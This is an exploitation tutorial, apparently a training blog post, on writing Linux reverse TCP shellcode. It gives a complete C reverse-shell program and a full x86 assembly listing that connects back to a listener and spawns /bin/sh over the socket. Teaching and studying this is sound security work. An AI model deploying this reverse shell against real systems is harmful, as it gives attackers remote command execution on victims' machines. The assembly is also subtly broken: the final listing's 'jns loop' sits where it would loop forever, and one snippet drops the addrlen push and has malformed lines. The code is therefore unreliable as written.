







:orphan:
(linux-exploitation-linux-reverse-tcp-shellcode)=

# Linux Exploitation: Linux Reverse TCP Shellcode

In this blog article we will create a Linux reverse TCP shellcode.

For the basics on how to perform shellcoding, please visit our blog article [Linux Exploitation: Basic Linux Shellcoding](linux-exploitation-basic-linux-shellcoding)

Before we jump to the Assembly, we must comprehend what we wish to achieve and which functions must be invoked before a reverse shell can be spawned and made operational.

Before creating the C program, let's learn about Linux's inner workings.

To create any network connection from a low-level perspective, you must first create a socket. A socket is a virtual network communication endpoint. It is defined by its file descriptor and its properties, which are set when the socket is created, so that the system can refer to it.

[Here](http://man7.org/linux/man-pages/man2/socket.2.html) you can find a comprehensive reference for socket properties. Among the characteristics of a socket are the protocols it supports (e.g., `IPv4` or `LOCAL`).

The `socket()` function creates a socket and returns the file descriptor (more on it later). The file descriptor is a handle that the operating system can use to refer to the socket.

The socket is not ready for use upon creation. It is merely a stub - a socket that is tailored to a particular protocol type.

However, it lacks a network location and cannot be accessed by another socket.

The next step for the socket will be to declare its intended purpose. Whether the socket is used on the client or the server has a significant impact.

If the socket must be a client socket, we only need to specify the required address and port. Upon establishing a successful connection, two-way communication can commence.

If the socket is intended to be a server socket, its local address and port must be specified. This operation is known as _bind_ because the socket is bound to the specified port and IP address of a particular interface.

The server socket is then placed in the listening state. It must `accept()` an incoming connection before bidirectional communication with the client can commence.

In the event of a reverse shell connection, we will create a client socket that connects to the attacker's machine's [netcat](using-netcat-as-a-reverse-shell) listener.

Returning to the socket, it is identified by a file descriptor, which is a virtual handle used to access specific I/O operations of a process.

`/proc/pid/fd/` provides access to the opened file descriptors for each process.

The bash command

```bash
echo $$
```

can be used to display the current PID:



Each process has file descriptors for Standard Input (stdin - `fd0`), Standard Output (stdout - `fd1`), and Standard Error (stderr - `fd2`) by default.

For simplicity, consider it in the following manner:

- Input is the data from your keyboard, which is connected to the standard input (`stdin`). The target program can read input from standard input and interpret it in some way (for example, bash executes commands).

- `Stdout` and `stderr` are the data sent to the user by the application. The program determines how to handle output; in bash, `stdout` and `stderr` are delivered to the user through separate channels, but both are ultimately displayed in the terminal window.

On the image below, we can see that terminal is linked to input, output, and error. We also observe file descriptor number `10`, which is a Linux internal structure that supports the other three file descriptors in the event that access fails:



File descriptors are process-unique and are associated with input/Output operations. Let's perform a simple exercise that will demonstrate how the user can communicate with the file descriptor of a specific process. Let's check the process id of itself in a freshly opened terminal using the steps below.

Then, in another terminal window, let's create a file and cat it into the standard input of the other terminal:

```bash
echo hello > test.txt
cat test.txt > /proc/3163552/fd/0
```



You can see that the file output appears in the second terminal:



We just wrote to its standard input handle, so `hello` appeared on the screen as if it had been typed on the terminal's keyboard. However, unless you have root privileges, you cannot execute commands in this manner on a foreign terminal. In addition, this would necessitate advanced kernel interactions.

This is because with this "trick", _you simulate the display of the user's input rather than the actual input_.

Why do we need file descriptors when using reverse shell
sockets?

Because we will execute something on a remote machine and receive its results via standard input or standard output, these data streams will be associated with the remote terminal.

In order to access them, we must duplicate their descriptors and point them to our socket using the `dup2()` function:

```cpp
int dup2(int oldfd, int newfd);
```

By duplicating the remote file descriptors, the output (or errors) of the executed commands will also be sent to our socket, which will then transmit the data across the network to our attacking machine.

To create a reverse shell shellcode, we need to:

- Create a socket compatible with TCP
- Connect it to the attacker.
- Duplicate the File Descriptors of stdin, stdout and stderr back to the reverse shell’s socket; this actually has to be done before bash is spawned, otherwise after bash is invoked we will not able to access its descriptors.
- Spawn a bash shell.

```cpp
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main(void) {
    int i; //for later use in fd replication
    int sockfd; //this will hold the file descriptor of our socket
    struct sockaddr_in sock_addr; // the socket requires passing the target address and port.
                                  //It accepts that data formed into a structure of type sockaddr_in. Before we use that structure, we need to declare it.

    //now, we define the elements of the structure that will contain socket properties
    sock_addr.sin_family = AF_INET; // address family - internet protocol address (IP)
    sock_addr.sin_port = htons( 4444 ); // target port. function htons() converts it to network byte order in similar way as we need to convert data passed to memory to little-endian
    sock_addr.sin_addr.s_addr = inet_addr("127.0.0.1"); // target ip, also adjusted to meet network byte order requirements.

    // Socket is created and reference to it is held in sockfd variable.
    sockfd = socket( AF_INET, SOCK_STREAM, IPPROTO_IP );

    // Socket is put in connect state accordingly to properties set in sock_addr structure
    connect(sockfd, (struct sockaddr *)&sock_addr, sizeof(sock_addr));

    // we want to duplicate all the file descriptors related to I/O (so number 0,1,2), and we do it using a loop
    for(i = 0; i <= 2; i++)
        dup2(sockfd, i);
    // spawn the bash shell
    execve( "/bin/sh", NULL, NULL );
}
```

As we compile it and set a netcat listener on port `4444`, we receive a shell upon launching the `shell` executable:



As we are now aware of the functions we need to invoke, we can do the same thing in Assembly using syscalls and registers.

First, we will create a socket using Assembly. As we are unable to specify the human-readable values (such as AF_INET), we must use their numeric equivalents.

The numerical values for each parameter are obtained from the syscall documentation, such as [here](http://man7.org/linux/man-pages/man2/socketcall.2.html) or [here](http://man7.org/linux/man-pages/man2/connect.2.html).

```nasm
push 0x66
pop eax ; syscall for sys_socketcall
xor ebx,ebx
Inc ebx ;we place 1 in ebx for sys_socket argument
xor edx, edx ; edx is zeroed out
push edx ; protocol ipproto_ip
push ebx; socket of type sock_stream
push 0x2; socket family af_inet
mov ecx, esp ; we move the pointer to the freshly pushed arguments into ecx
int 0x80; syscall – socket is created and the result is stored in eax
xchg edx, eax ; we save the result file descriptor in edx as eax will be needed for
another call
```

The following step is to use the newly created socket to establish a TCP connection with the target. To achieve this, we must re-use the socket call. In addition, we must push the entire structure defined in C onto the stack.
Once everything has been configured, we must set `ebx` to `0x3` for the connect syscall.
Let's construct the Assembly in stages.

The newly created socket will be used to establish a TCP connection with the target.

```nasm
push 0x66
pop eax; we use the same socket call
```

Now, we need to push the target addresses, which is a bit tricky.

Now, we'll begin pushing the socket structure arguments. The IP address goes first. We would like to store `127.0.0.1`. It must adhere to the network's byte order specifications and cannot include a null byte.
We will write it as a hexadecimal digit in reverse order: `0x0100007f`

The only issue is that we must remove the null bytes. However, since the localhost address has a netmask of `255.0.0.0`, `127.1.1.2` can also be used.
Therefore, we issue the following directive:

```nasm
push 0x0201017f; 7f is 127 in hex, and the rest of the address is self-explanatory.
```

We will then need to push the port number onto the stack. Let's take for example port `1234`. Note that you should convert it manually to a network byte order. `1234` is equal to `0x04D2` in hex. In memory it exists in little endian, so in that order `0xD20x04`. This is the value we will push onto the stack.

We want to push `1234` decimal, which is `0x04D2` in hex. So
we:

```nasm
push word 0xd204
```

We wish to store the `AF_INET` identifier, which is `0x2`, in `EBX`, which is already set to `1`. Therefore, we must increase it once. Then, we will only push its lower half to avoid nulls.

```nasm
inc ebx
push word bx
```

All structure members have been placed on the stack, beginning at the top.

Consequently, `ESP` presently points to this structure. As we require a pointer to this structure, we will store `esp` in `ecx`, just as we did in the previous syscall that created the socket.

```nasm
mov ecx, esp
```

The length of the address (addrlen) is `16` decimal digits.

```nasm
Push ecx      ; newly saved sockaddr struct pointer.
Push edx      ; sockfd that was obtained in the previous syscall
Move ecx, esp ; we save the stack pointer in ecx once more
```

The final step is to insert the connect function call id into `EBX`. Since it was already two, we can simply make it three.

```nasm
inc ebx   ; now its 0x3 for sys_connect
int 0x80  ; execute function
```

Add the remaining component. As the socket is created, we must reconstruct the duplicate file descriptors in Assembly. We will also utilize a loop and the `sockfd` stored in `edx`.

In the end, we only need to add the previously discussed execve shellcode.

So, the full Assembly code required to create a reverse shell:

```nasm
global _start
section .text
_start:
    push 0x66
    pop eax          ; syscall
    push 0x1
    pop ebx
    xor edx,edx
    push edx         ; protocol IPPROTO_IP (0x0)
    push ebx         ; socket_type SOCK_STREAM (0x1)
    push 0x2         ; socket_family AF_INET (0x2)
    mov ecx, esp
    int 0x80
    xchg edx, eax    ; save result (sockfd) for later usage
    mov al, 0x66
    push 0x0201017f  ; sin_addr=127.1.1.2
    push word 0xd204 ; sin_port=1234
    inc ebx
    push word bx     ; sin_family=AF_INET (0x2)
    mov ecx, esp     ; save pointer to sockaddr struct
    push 0x10        ; addrlen=16
    push ecx         ; pointer to sockaddr
    push edx         ; sockfd
    mov ecx, esp
    inc ebx          ; sys_connect (0x3)
    int 0x80         ; exec sys_connect
    push 0x2
    pop ecx
    xchg ebx,edx

loop:
    jns loop
    mov al, 0x3f     ; syscall: sys_dup2
    int 0x80         ; execute sys_dup2
    dec ecx          ; decrement loop-counter
                     ; as long as SF is not set -> jmp to loop
    mov al, 0x0b
    xor ebx,ebx
    push ebx
    push 0x68732f2f  ;"hs//"
    push 0x6e69622f  ;"nib/"
    mov ebx, esp
    xor ecx, ecx
    mov edx, ecx
    int 0x80
```

As we compile the assembly code, we receive a reverse
shell executable:



The last step is to extract the opcodes and copy them to the shellcode-tester:



As you saw, writing shellcode is not that difficult; all it
requires is a clear plan.

## References

[Linux socket](http://man7.org/linux/man-pages/man2/socket.2.html)

[linux man page: dup2()](https://man7.org/linux/man-pages/man2/dup.2.html)

[socketcall(2)](http://man7.org/linux/man-pages/man2/socketcall.2.html)

[connect(2)](http://man7.org/linux/man-pages/man2/connect.2.html)

[reverse TCP shellcode example](https://www.exploit-db.com/exploits/43433)

:::{seealso}
Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html) In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.
:::
